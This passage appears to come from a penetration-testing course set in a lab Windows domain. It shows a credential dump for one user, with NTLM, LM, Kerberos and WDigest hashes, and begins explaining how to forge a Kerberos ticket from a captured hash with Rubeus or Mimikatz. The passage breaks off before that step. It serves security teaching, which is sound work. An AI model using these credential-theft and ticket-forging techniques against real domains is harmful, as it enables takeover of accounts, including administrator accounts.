 ```cmd-session
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 8/14/2020 4:06:13 AM
Object Security ID   : S-1-5-21-2974783224-3764228556-2640795941-1122
Object Relative ID   : 1122

Credentials:
  Hash NTLM: 0fcb586d2aec31967c8a310d1ac2bf50
    ntlm- 0: 0fcb586d2aec31967c8a310d1ac2bf50
    ntlm- 1: cf3a5525ee9414229e66279623ed5c58
    lm  - 0: 2fd05b1ff89bfeed627937845f3bc535
    lm  - 1: 3cf0c818426269923b3a993b071b81d5

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e27b6e4d84697eb7cf50dc6d0efdb226

* Primary:Kerberos-Newer-Keys *
    Default Salt : INLANEFREIGHT.LOCALsarah.lafferty
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : ba5b9b6850a1aea865ab1a7fdc895d1e27f39c327b8f7d4c96132b4438727386
      aes128_hmac       (4096) : bee242dbe9cb898c67b8075e13384b22
      des_cbc_md5       (4096) : 029e1c2af1237351
    OldCredentials
      aes256_hmac       (4096) : 13b57fa4a6c0f4adce4b1d85e64a909d35dce98736909f370154f9bd08b8bc67
      aes128_hmac       (4096) : 1fdbc782bcdfcd692923dc54785d5ee1
      des_cbc_md5       (4096) : ba677a73a82a2a9e

* Primary:Kerberos *
    Default Salt : INLANEFREIGHT.LOCALsarah.lafferty
    Credentials
      des_cbc_md5       : 029e1c2af1237351
    OldCredentials
      des_cbc_md5       : ba677a73a82a2a9e

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  966bec5d60500f0e964fb78be94cc0a8
    02  1abbf4255613844082376a5288cfcfb2
    03  c74c93a52310d2a88581ffb075aeff33
    <SNIP>
```

We can capture any account's hash, such as the Administrator account, and then we can use Rubeus or Mimikatz to get a ticket from the compromised account. For example, let's take Sarah' hash `0fcb586d2aec31967c8a310d1ac2bf50` and create a ticket with it:
